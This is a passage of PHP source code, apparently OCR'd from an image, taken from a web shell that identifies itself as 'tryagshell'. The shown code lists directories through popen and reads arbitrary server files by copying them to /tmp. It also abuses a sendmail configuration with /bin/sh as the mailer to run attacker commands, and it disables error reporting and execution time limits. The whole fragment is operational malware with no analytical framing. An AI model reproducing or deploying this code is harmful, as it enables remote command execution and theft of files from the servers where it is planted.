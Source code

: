                                                 if($param1){$exec = "/bin/ls ". $param1;}
                                                else{$exec = "/bin/ls";}
                                                $fp = popen("$exec", "r");
                                                print $fp;
                                                pclose($fp);
                                        break;
                                        case("tempnam"):
                                                $cmd = $param1;
                                                $script=tempnam("/tmp", "script");
                                                $cf=tempnam("/tmp", "cf");
                                                $fd = fopen($cf, "w");
                                                fwrite($fd, "OQ/tmp Sparse=0 R$*" . chr(9) . "$#local $@ $1 $: $1 Mlocal, P=/bin/sh, A=sh $script");
                                                fclose($fd);
                                                $fd = fopen($script, "w");
                                                fwrite($fd, "rm -f $script $cf; ");
                                                fwrite($fd, $cmd);
                                                fclose($fd);
                                                break;
                                                case("/tmp"):
                                                $target_file= $param1;
                                                        if (!$param2){$tmp_file="/tmp/tmp.ghc";}
                                                        else{$tmp_file = $param2;}
                                                print copy($target_file, $tmp_file);
                                                $handle = fopen ($tmp_file, "r");
                                                 while (!feof ($handle)) {
                                                  $buffer = fgets($handle, 4096);
                                             echo $buffer;
                                                  }
                                                fclose ($handle);
                                         break;
                                                }
                                               }
error_reporting(0);
set_magic_quotes_runtime(0);
@set_time_limit(0);
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0);
$safe_mode = @ini_get('safe_mode');
$version = "1.3";
if(version_compare(phpversion(), '4.1.0') == -1)
 {
 $_POST   = &$HTTP_POST_VARS;
 $_GET    = &$HTTP_GET_VARS;
 $_SERVER = &$HTTP_SERVER_VARS;
 }
if (@get_magic_quotes_gpc())
 {
 foreach ($_POST as $k=&gt;$v)
  {
  $_POST[$k] = stripslashes($v);
  }
 foreach ($_SERVER as $k=&gt;$v)
  {
  $_SERVER[$k] = stripslashes($v);
  }
 }
if($auth == 1) {
if (!isset($_SERVER['PHP_AUTH_USER']) || md5($_SERVER['PHP_AUTH_USER'])!==$name || md5($_SERVER['PHP_AUTH_PW'])!==$pass)
   {
   header('WWW-Authenticate: Basic realm="tryagshell"');
   header('HTTP/1.0 401 Unauthorized');
   exit("&lt;b&gt;&lt;a href=http://rst.void.ru&gt;tryagshell&lt;/a&gt; : Access Denied&lt;/b&gt;");